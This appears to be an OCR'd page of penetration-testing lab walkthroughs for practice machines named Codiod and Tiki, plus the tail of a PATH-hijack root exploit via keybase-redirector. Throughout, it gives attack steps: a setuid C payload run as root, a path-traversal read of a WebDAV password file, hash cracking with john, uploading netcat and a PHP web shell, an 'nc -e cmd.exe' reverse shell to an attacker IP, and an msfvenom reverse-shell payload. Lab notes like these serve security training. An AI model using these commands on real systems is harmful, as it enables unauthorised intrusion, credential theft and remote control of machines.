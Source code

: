{
setreuid(0,0);
system("/usr/bin/touch /w00t");
return(0);
}
1. Compile it - gcc -Wall fusermount.c -o fusermount and upload it to target machine
2. Prepend the PATH env variable with a dot and execute keybase-redirector which in turn will
execute the malicious fusermount binary as root. - env PATH=.:$PATH
/usr/bin/keybase-redirector /keybase
1. Enter the control-c sequence to kill the application and run the ./w00t binary.
2. Root shell!

```bash
Codiod (.55)
```
Operating SystemWindows
Points20
Similar Machine (User)
Similar Machine (Root)
Exploits in Getting User
1. Simple nmap will show /dashboard so directory brute force that
2. LFI in
compontents/filemanager/download.php?path=../../../../../../../../../../xampp/security/webda
v.htpasswd
1. Brute force the hash: john --wordlist=rockyou.txt hash.txt
2. Upload netcat: curl --user 'wampp:iamdifferent' -T nc.exe
http://192.168.XX.55/webdav/nc.exe
1. Upload the reverse shell using the same process above: <?php echo($_GET[‘cmd’]); ?>
2. Start a netcat listener
3. curl --user 'wampp:iamdifferent'
http://192.168.XX.55/webdav/cmd.php?cmd=nc+-e+cmd.exe+192.168.XX.XX+53
1. User Shell!
Privilege Escalation to Root
1. WebDAV Elevation of Privilege Vulnerability - CVE-2016-0051
2. Method 2 in https://hacknpentest.com/webdav-exploit-elevation-of-privilege/
3. Exploit: https://github.com/hexx0r/CVE-2016-0051
4. Root shell!

```bash
Tiki (.67)
```
Operating SystemLinux
Points20
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Directory brute force port 8080
2. Tiki Wiki 15.1 - File Upload - https://www.exploit-db.com/exploits/40053
3. Run the exploit and access
http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php
1. Execute commands:
http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php?fexec=whoami
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.XX.XX LPORT=4444 -f
exe -o mrev.exe
1. http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php?fupload=mrev.exe
2. User shell!
Privilege Escalation to Root
1. SentryHD 02.01.12e - Local Privilege Escalation -
https://www.exploit-db.com/exploits/41090
1. Root shell!
